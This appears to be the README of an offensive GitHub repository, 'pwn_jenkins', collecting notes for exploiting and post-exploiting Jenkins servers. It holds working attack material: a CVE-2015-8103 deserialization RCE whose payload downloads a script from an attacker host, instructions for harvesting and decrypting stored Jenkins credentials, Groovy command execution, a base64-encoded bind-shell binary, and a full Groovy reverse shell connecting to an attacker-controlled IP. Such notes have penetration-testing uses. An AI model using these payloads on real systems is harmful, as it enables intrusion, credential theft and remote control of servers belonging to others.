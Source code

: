 pwn_jenkins
===========

Notes about Jenkins exploitation and post-exploitation.


RCE in old Jenkins (CVE-2015-8103, Jenkins 1.638 and older)
==========================================================

Use ysoserial to generate a payload:
https://github.com/frohoff/ysoserial

Then RCE using this script [or the one joined](./rce/pwn_jenkins.py):
https://github.com/foxglovesec/JavaUnserializeExploits/blob/master/jenkins.py

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```

Dumping builds to find cleartext secrets
========================================
Use [this script](./dump_builds/jenkins_dump_builds.py) to dump build console outputs and build environment variables to hopefully find cleartext secrets.

```
usage: jenkins_dump_builds.py [-h] -U URL [-u USER] [-p PASSWORD]
                              [-o OUTPUT_DIR] [-d] [-f]

Dump all available info from Jenkins

optional arguments:
  -h, --help            show this help message and exit
  -U URL, --url URL
  -u USER, --user USER
  -p PASSWORD, --password PASSWORD
  -o OUTPUT_DIR, --output-dir OUTPUT_DIR
  -d, --downgrade_ssl   Downgrade SSL to use RSA
  -f, --full            Dump all available builds
```

Files to copy after compromission
=================================

These files are needed to decrypt Jenkins secrets:

* secrets/master.key
* secrets/hudson.util.Secret

Such secrets can usually be found in:

* credentials.xml
* jobs/.../build.xml

Here's a regexp to find them:
```bash
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
```


Decrypt Jenkins secrets offline
===============================

See [this script](./offline_decryption/jenkins_offline_decrypt.py).


Decrypt Jenkins secrets from Groovy
===================================

```java
println(hudson.util.Secret.decrypt("{...}"))
```


Command execution from Groovy
=============================

```java
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

For multiline shell commands, use the following shell syntax trick (example includes bind shell):

```java
def proc="sh -c \$@|sh . echo /bin/echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAzgAAAAAAAAAkAQAAAAAAAAAQAAAAAAAAailYmWoCX2oBXg8FSJdSxwQkAgD96UiJ5moQWmoxWA8FajJYDwVIMfZqK1gPBUiXagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU= | base64 -d > /tmp/65001".execute();
```

Reverse shell from Groovy
=========================

```java
String host="myip";
int port=1234;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

I'll leave this reverse shell tip here in case anyone needs it:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
^Z bg
stty -a
echo $TERM
stty raw -echo
fg
export TERM=...
stty rows xx columns yy
```
